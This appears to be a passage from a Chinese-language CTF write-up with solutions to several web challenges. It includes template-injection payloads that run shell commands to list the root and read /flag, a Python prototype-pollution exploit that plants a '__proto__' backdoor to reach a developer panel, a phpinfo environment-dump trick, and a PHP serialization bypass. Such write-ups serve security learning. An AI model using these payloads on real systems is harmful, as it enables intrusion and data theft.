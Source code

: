 ```
$props=["quotekey"=>"phpinfo"],

$adhoc=["16"=>["expr"=>""]],

```

16代表打印环境变量

![](https://soreatu-1300077947.cos.ap-nanjing.myqcloud.com/uPic/MWSxj7Vvup52kAG.png)

### rceme

- 列根目录

```
{if:aaa)echo `ls /`;//}{end if}

```

- 读flag

```
{if:aaa)echo `cat /flag`;//}{end if}

```

![](https://soreatu-1300077947.cos.ap-nanjing.myqcloud.com/uPic/TQE5c2K3SPCNiqm.png)

### LittleGame

set-value原型链污染

* exp

```python
import requests
url = "http://ip:port/"
session = requests.session()
//重生点
session.get(url+"SpawnPoint")
//后门
session.post(url+"Privilege",data={"NewAttributeKey":"__proto__.jylsec","NewAttributeValue":"jylsec"})
//拿flag
r = session.post(url+"DeveloperControlPanel",data={"key":"jylsec","password":"jylsec"})
print(r.text)
```

### easytrick

```php
<?php
class trick{
    public $trick1="INF";
    public $trick2=INF;
}
echo urlencode(serialize(new trick()));
```
